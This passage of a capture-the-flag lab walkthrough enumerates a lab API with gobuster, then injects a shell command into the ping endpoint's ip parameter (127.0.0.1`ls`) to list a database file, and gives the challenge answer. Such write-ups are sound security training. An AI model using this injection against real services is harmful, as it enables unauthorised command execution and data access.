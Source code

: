 As we already know that in port 8081 we have api so we can assume that we access to database information

with this port. 

So now we going to look for directories in <target_ip>:8081 

```
$ gobuster dir -u http://10.10.19.14:8081  -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.19.14:8081
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/auth                 (Status: 200) [Size: 39]
/ping                 (Status: 500) [Size: 1094]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

here we have `auth` and `ping` directories also here we can assume that auth directory is for login to the

server, and ping to ping the server. 

So lets check it on browser
`http://10.10.19.14:8081/ping?ip=127.0.0.1` 

you should something like this 
 `PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.014 ms --- 127.0.0.1 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.014/0.014/0.014/0.000 ms `

it means that this directory connected to the server db, and we can try to command inject it:

http://10.10.19.14:8081/ping?ip=127.0.0.1`ls` ---> wooops! injection works

you will get something like this:
`ping: utech.db.sqlite: Name or service not known`

where `utech.db.sqlite` is our db

You should also investigate directories <target_ip>:31331 --->here could  find some users like `r00t` 

Answer:utech.db.sqlite

